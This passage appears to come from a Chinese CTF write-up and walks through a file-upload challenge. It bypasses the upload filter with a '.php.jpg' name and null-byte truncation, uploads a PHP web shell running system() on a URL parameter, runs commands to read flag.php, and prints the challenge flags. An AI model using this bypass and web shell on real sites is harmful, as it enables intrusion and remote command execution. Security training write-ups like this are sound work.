>   
> flag\{858a14671c27804b63e6e96b0acdfdd7\}

### [](#7-刚写了个小站 "7.刚写了个小站")7.刚写了个小站

> 题目地址：<http://114.55.36.69:8014/>  
> 这个题稍微有点坑，花了点力气  
> 上来先注册一个号  
> 进去后是个网站，先扫描后台发现有`url/uploads/`这个目录  
> 然后想到这个题有可能是文件上传，果然在网站的侧栏发现了`upload`按钮  
>   
> 上传其实很简单，后缀改成`.php.jpg`\(这个题只能提交jpg,不能提交png\)  
> 然后抓包在php后边加个空格，在十六进制里把空格的20改成00截断，这样就可以上传成功  
> 上传成功后用菜刀连不上，应该是网站加了安全保护措施  
> 所以只能在URL框里执行命令了  
> 上传的木马里写入这样的代码  
> 
> <table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">$arg = $_GET['cmd'];</span><br><span class="line">if ($arg) {</span><br><span class="line">system("$arg");</span><br><span class="line">}</span><br><span class="line">?&gt;</span><br></pre></td></tr></tbody></table>
> 
>   
> 然后在URL里直接使用`http://114.55.36.69:8014/upload/8a30ec6807f71bc69d096d8e4d501ade/u.php?cmd=ls`  
>   
> 可以看到我们的命令被成功执行了  
> ok，接下来就是寻找flag的位置和查看flag了，直接给出payload  
> `http://114.55.36.69:8014/upload/8a30ec6807f71bc69d096d8e4d501ade/u.php?cmd=cd%20..;cd%20..;cat%20flag.php`  
> 回车后页面是空的，因为php代码是不会显示出来的  
> 查看页面源代码就能看到内容了  
>   
> flag\{N4me\_sPac4\_Is\_Int3r3st1ng\}

由于时间有限，只写出来了7个题，剩下3个300分的还没看。2333333
